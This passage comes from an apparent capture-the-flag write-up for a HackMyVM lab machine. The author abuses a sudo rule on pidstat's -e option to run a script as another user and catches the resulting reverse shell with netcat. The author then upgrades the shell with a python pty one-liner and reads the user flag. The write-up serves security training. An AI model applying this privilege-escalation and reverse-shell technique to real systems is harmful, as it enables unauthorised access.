 I will execute `pidstat` as the `messagemaster` user and point the `-e` flag to my script:

```bash
www-data@MSG:/tmp$ sudo -u messagemaster /bin/pidstat -e ./shell.sh
sudo -u messagemaster /bin/pidstat -e ./shell.sh
Linux 5.10.0-19-amd64 (MSG) 	08/11/24 	_x86_64_	(1 CPU)

13:27:50      UID       PID    %usr %system  %guest   %wait    %CPU   CPU  Command
13:27:50     1000       778    0.00    0.00    0.00    0.00    0.00     0  pidstat
www-data@MSG:/tmp$ 
```

This gave me a reverse shell as the `messagemaster` user:

```bash
garffff@garffff:~/hackmyvm/wmessage$ sudo nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.0.65 34704
whoami && id
messagemaster
uid=1000(messagemaster) gid=1000(messagemaster) groups=1000(messagemaster),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth)

```

Upgrading the shell again:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
messagemaster@MSG:/tmp$ ^Z
[1]+  Stopped                 sudo nc -lvp 4444
garffff@garffff:~/hackmyvm/wmessage$ stty raw -echo
sudo nc -lvp 4444ackmyvm/wmessage$ 


messagemaster@MSG:/tmp$ whoami && id
whoami && id
messagemaster
uid=1000(messagemaster) gid=1000(messagemaster) groups=1000(messagemaster),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth)
messagemaster@MSG:/tmp$ 
```

And obtaining the first flag:

```bash
messagemaster@MSG:/tmp$ cd /home/messagemaster
cd /home/messagemaster
messagemaster@MSG:~$ ls -lash
ls -lash
total 28K
4.0K drwxr-xr-x 3 messagemaster messagemaster 4.0K Nov 22  2022 .
4.0K drwxr-xr-x 4 root          root          4.0K Nov 21  2022 ..
   0 -rw------- 1 messagemaster messagemaster    0 Nov 22  2022 .bash_history
4.0K -rw-r--r-- 1 messagemaster messagemaster  220 Nov 12  2022 .bash_logout
4.0K -rw-r--r-- 1 messagemaster messagemaster 3.5K Nov 12  2022 .bashrc
4.0K drwxr-xr-x 3 messagemaster messagemaster 4.0K Nov 22  2022 .local
4.0K -rw-r--r-- 1 messagemaster messagemaster  807 Nov 12  2022 .profile
4.0K -rw------- 1 messagemaster messagemaster   33 Nov 22  2022 User.txt
messagemaster@MSG:~$ cat User.txt
cat User.txt
ea86091a17126fe48a83c1b8d13d60ab
```
### Privilege Escalation - Root:
